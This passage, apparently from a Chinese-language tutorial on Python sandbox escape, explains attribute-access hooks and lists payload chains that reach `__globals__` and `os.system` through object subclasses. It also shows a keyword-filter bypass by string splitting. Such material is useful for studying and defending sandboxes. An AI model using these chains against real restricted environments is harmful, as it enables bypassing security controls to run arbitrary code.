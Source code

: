 它的基本语法如下：

```python
class MyClass:
    def __getattribute__(self, name):
```
getattr 函数在调用时，实际上就是调用这个类的 `__getattribute__` 方法。
```py
>>> os.__getattribute__
<method-wrapper '__getattribute__' of module object at 0x7f06a9bf44f0>
>>> os.__getattribute__('system')
<built-in function system>
```

#### `__getattr__` 函数
`__getattr__` 是 Python 的一个特殊方法，当尝试访问一个对象的不存在的属性时，它就会被调用。它允许一个对象动态地返回一个属性值，或者抛出一个 `AttributeError` 异常。

如下是 `__getattr__` 方法的基本形式：

```python
class MyClass:
    def __getattr__(self, name):
        return 'You tried to get ' + name
```

在这个例子中，任何你尝试访问的不存在的属性都会返回一个字符串，形如 "You tried to get X"，其中 X 是你尝试访问的属性名。

与 `__getattribute__` 不同，`__getattr__` 只有在属性查找失败时才会被调用，这使得 `__getattribute__` 可以用来更为全面地控制属性访问。

如果在一个类中同时定义了 `__getattr__` 和 `__getattribute__`，那么无论属性是否存在，`__getattribute__` 都会被首先调用。只有当 `__getattribute__` 抛出 `AttributeError` 异常时，`__getattr__` 才会被调用。

另外，所有的类都会有`__getattribute__`属性，而不一定有`__getattr__`属性。


#### `__globals__` 替换
`__globals__` 可以用 func_globals 直接替换；

```py
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals
''.__class__.__mro__[2].__subclasses__()[59].__init__.__getattribute__("__glo"+"bals__")
```

#### `__mro__、__bases__、__base__`互换

三者之间可以相互替换
```py
''.__class__.__mro__[2]
[].__class__.__mro__[1]
{}.__class__.__mro__[1]
().__class__.__mro__[1]
[].__class__.__mro__[-1]
{}.__class__.__mro__[-1]
().__class__.__mro__[-1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
[].__class__.__base__
().__class__.__base__
{}.__class__.__base__
```
